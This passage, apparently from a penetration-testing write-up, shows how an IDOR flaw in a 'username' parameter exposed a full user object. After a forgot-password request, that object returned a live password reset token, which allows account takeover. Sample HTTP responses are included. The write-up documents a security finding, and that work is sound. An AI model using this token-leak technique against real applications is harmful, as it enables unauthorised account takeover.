 ```http
  "admin_level": 0,  
  "email": "admin.user@redacted.co.uk",  
  "name": "Admin User",    
  "vmsEnabled": 0,  
  "twofa_enabled": 0,  
  "pwResetToken": null,  
  "pwResetExpiry": null,  
  "capability_two_authorised": 0,   
  "created_at": null,  
  "updated_at": null,  
  "is_trial": 0,  
  "deleted_at": null  
}
```

The `username` parameter was vulnerable to IDOR. After observing the above response, we noticed some interesting keys within the JSON response such as `pwResetToken`, which appeared to be a password reset token. It seemed the application dumped the entire user object within the response.  In the above response, `pwResetToken` was showing `null` which made us wonder what if we request a password reset token using forgot password functionality, since the email address of the user was already disclosed in the response. Would it appear in the above response? Well, let's find out.

After sending the password reset link, we can see the password reset token in the response parameter `pwResetToken`. :

**Response**

```http
HTTP/2 200 OK  
Date: Wed, 07 Jun 2023 12:51:27 GMT  
Content-Type: text/html; charset=UTF-8  
Cache-Control: no-store, private  
X-Frame-Options: SAMEORIGIN  
X-Content-Type-Options: nosniff  
Strict-Transport-Security: max-age=15724800; includeSubDomains  
  
{  
  "id": 36,  
  "username": "AdminUser",  
  "login_attempts": 0,  
  "company": "CognisysTest",  
  "organisation_id": 12,  
  "licence_id": null,  
  "admin_level": 0,  
  "email": "admin.user@redacted.co.uk",  
  "name": "Admin User",    
  "vmsEnabled": 0,  
  "twofa_enabled": 0,  
  "pwResetToken": "35712ff8b8f3d83bca3fec078fcf6ead",  
  "pwResetExpiry": "2023-06-08 13:16:09",   
  "capability_two_authorised": 0,   
  "created_at": null,  
  "updated_at": null,  
  "is_trial": 0,  
  "deleted_at": null  
}
```
